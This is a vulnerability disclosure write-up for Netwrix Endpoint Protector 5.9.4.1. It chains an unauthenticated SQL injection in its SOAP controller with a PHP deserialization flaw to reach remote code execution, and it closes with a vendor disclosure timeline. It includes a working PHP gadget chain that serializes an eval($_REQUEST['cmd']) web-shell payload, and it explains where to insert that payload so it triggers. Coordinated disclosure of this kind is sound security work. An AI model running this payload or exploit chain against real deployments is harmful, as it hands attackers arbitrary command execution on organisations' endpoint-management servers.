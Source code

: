 ## 0x01 Affected Version

test version:  5.9.4.1

## 0x02 Vulnerability Details

**Unauthorized SQL injection**

SoapControllerMySQL

![image-20240911110146542](Netwrix Endpoint Protector From Pre-Auth SQLI to RCE/image-20240911110146542.png)

Searching for public function with parameters found only

- isSoapAuth
- Ping
- processActionList
- Reprovision
- Connected
- UploadLogEnd

Ping

![image-20240911174755803](Netwrix Endpoint Protector From Pre-Auth SQLI to RCE/image-20240911174755803.png)

SQL injection exists when inserting or updating

Stack injection is possible. This vulnerability can be exploited to add arbitrary users and inject malicious data into the database.

![image-20240911174851219](Netwrix Endpoint Protector From Pre-Auth SQLI to RCE/image-20240911174851219.png)

Access is only possible through SSL verification

![image-20250517132852829](Netwrix Endpoint Protector From Pre-Auth SQLI to RCE/image-20250517132852829.png)

You can register and obtain a certificate through /wsf/webservice.php, and then request the obtained certificate.

**Post-Auth deserialization Remote code execution**

The decrypted code is a bit messy, but the relevant logic can still be guessed

ADOperationLogPeer::getFormattedMessage

Deserialization exists

![image-20250517130743472](Netwrix Endpoint Protector From Pre-Auth SQLI to RCE/image-20250517130743472.png)

ad_logActions::executeList calls the getFormattedMessage method

![image-20250517130819207](Netwrix Endpoint Protector From Pre-Auth SQLI to RCE/image-20250517130819207-1747459959190-5.png)

Therefore, you only need to insert malicious data into the adoperation_log table, and deserialization can be triggered during list query to achieve remote code execution.

gadget

```php
<?php

class Net_SSH1
{
    var $bitmap = 1;
    var $crypto;
    public function __construct($a)
    {
        $this->crypto = $a;
    }
}

class Crypt_DES
{
    var $block_size;
    var $inline_crypt;
    var $use_inline_crypt = 1;
    var $changed = 0;
    var $engine = 1;
    var $mode = 1;

    public function __construct($t)

    {
            $this->block_size = '1){}}}; ob_clean();' . $t . 'die(); ?>';
            $this->changed=1;
            $this->engine = "xxxxx";
    }
}
class Crypt_RSA{

}
$code= "eval(\$_REQUEST['cmd']);";
$obj = [new Crypt_RSA(),
        new Net_SSH1(
           new Crypt_DES($code)
        )
    ];
echo base64_encode(serialize($obj));
```

Combining two vulnerabilities can achieve unauthorized remote code execution.

You can just change the directory and run netwrix_cososys_endpoint_protector_sqli_rce.py

![image-20250517134001159](Netwrix Endpoint Protector From Pre-Auth SQLI to RCE/image-20250517134001159.png)

## 0x03 Disclosure Timeline

- **2025-05-17** – Initial report submitted
- **2025-05-17** – Vendor confirmed receipt; triage underway, next update in 3 business days
- **2025-05-30** – Requested update
- **2025-06-16** – Requested update
- **2025-06-27** – Vendor confirmed the vulnerability; disclosure delayed until patch release
- **2025-08-14** – Requested update
- **2025-08-14** – Requested update (no patch released; disclosure window exceeded 90 days; public disclosure may follow if no fix by 2025-09-14)
- **2025-09-15** – The supplier replied that the work order was closed by mistake and the request was postponed to October 1
- **2025-09-29** – Vendor response: CVE-2025-59796 (security advisory will be released around October 20)
- **2025-10-30** – Vendor release security advisories
